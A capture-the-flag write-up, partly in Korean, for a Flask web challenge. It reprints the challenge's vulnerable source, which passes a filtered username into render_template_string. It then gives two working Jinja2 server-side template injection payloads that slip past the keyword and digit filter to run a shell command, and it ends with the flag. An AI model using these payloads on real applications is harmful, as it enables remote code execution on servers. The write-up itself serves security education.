

# Congenial Octo Couscous
**Web, 70pts**
> Written by avz92
>
> Team Congenial-Octo-Couscous is looking to replace one of its members for the Battlecode competition, who carried the team too hard and broke his back. Until a neural net can take his place, the team wants a 4th member. Figure out how to join the team and read the secret strategy guide to get the flag.

--------------------------------------------------------------------------------

```python
from flask import Flask, render_template, request, render_template_string
from multiprocessing import Pool
import random
import re

app = Flask(__name__,template_folder='templates')
app.config['SERVER_FILEPATH']='/secretserverfile.py'

def check_chars(text=''):
    if text=='':
        return False
    
    if '{' in text or '}' in text:
        text2=re.sub(r'\s','',text).lower()
    
    illegal = ['"', 'class', '[', ']', 'dict', 'sys', 'os', 'eval', 'exec', 'config.']
    
    if any([x in text2 for x in illegal]):
        return False
    
    for i in range(10):
        if str(i) in text:
            return False
    
    return text
    
def async_function(message):
    return render_template_string(message)
    
app.jinja_env.globals.update(check_chars=check_chars)

@app.route('/')
def main():
    return render_template('index.html')
    
@app.route(app.config['SERVER_FILEPATH'])
def server():
    return open('server.py').read()
    
@app.route('/strategyguide.txt')
def guide(): #TODO: add authentication to endpoint return 'ACCESS DENIED'
    
@app.route('/apply',methods=["POST"])
def apply():
    if request.form.get('username') is not None:
        if check_chars(request.form.get('username')):
            message='Hello, '+check_chars(request.form.get('username'))+'. Your application will be processed in '+ str(random.randint(3,7)) +' weeks.'
            result=None
            with Pool(processes=1) as pool:
                return_val=pool.apply_async(async_function,(message,))
                try:
                    result=return_val.get(timeout=1.50)
                except:
                    result='Server Timeout'
                    return result
        else:
            return 'Server Error'
            
if __name__ == "__main__":
    app.run(debug=True)
```

입력창에 SSTI 취약점 구문을 입력해보니 계산식이 출력되어 Flask SSTI 문제라고 생각하였다. 위의 코드에서 키워드와 정수값이 필터링되는 것을 보고 아래의 게시물을 참고하여 필터링을 우회할 수 있는 페이로드를 작성하였다.

- https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

```
Payload 1
{{()|attr(request.form.get('fname'))|attr('__base__')|attr(request.form.get('lname'))()|attr('__getitem__')((true+true)**(true+true+true+true+true+true+true)+(true+true)**(true+true+true+true+true+true)+true+true+true+true+true+true+true)('cat strategyguide.txt',shell=True,stdout=-(true))|attr('communicate')()}}

Payload 2
{{''|attr(request.form.get('fname'))|attr('__mro__')|attr('__getitem__')(true)|attr(request.form.get('lname'))()|attr('__getitem__')((true+true)**(true+true+true+true+true+true+true)+(true+true)**(true+true+true+true+true+true)+true+true+true+true+true+true+true)('cat strategyguide.txt',shell=True,stdout=-(true))|attr('communicate')()}}
```



```
Flag: tjctf{c0ng3n1al_500iq_str4ts_ez_dub}
```
